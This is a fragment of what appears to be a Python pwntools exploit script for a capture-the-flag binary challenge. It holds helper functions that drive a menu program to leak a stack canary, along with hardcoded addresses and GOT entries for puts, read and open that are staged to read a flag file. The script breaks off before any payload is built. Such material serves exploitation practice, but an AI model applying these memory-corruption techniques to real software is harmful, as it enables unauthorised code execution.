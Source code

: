 def ru(a):
	p.recvuntil(a)

def rv(a):
	return p.recv(a)

def sl(a):
	p.sendline(a)

def lg(s,addr):
	print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def func3(content):
	sla('option:','3')
	sa('think?)\n',content)

def write_code(code,s):
	sla('option:','2')
	sla('...\n',code)
	sla('y/n\n',s)

def leak_canary(code):
	sla('option:','1')
	sa('play once..\n',code)
	#sleep(1)

def guess_secret(secret):
	sla('option:',str(9011))
	sa('code:',secret)


def hack():
	raw_input()
	init1 = 0x0000000000400C4A
	init2 = 0x0000000000400C30
	code_base = 0x0000000000602080
	flag_path = code_base + 0x200
	write_addr = code_base + 0x300
	puts_got = pwn_elf.got['puts']
	read_got = pwn_elf.got['read']
	open_got = pwn_elf.got['open']
	#vul_func = 0x0000000000400B15

	# symtab = pwn_rop.dynamic('SYMTAB')
	# strtab = pwn_rop.dynamic('STRTAB')
	# syment = pwn_rop.dynamic('SYMENT')
	# rel_plt = pwn_rop.dynamic('JMPREL')
	# rela_ent = pwn_rop.dynamic('RELAENT')
	# plt_got = pwn_rop.dynamic('PLTGOT')
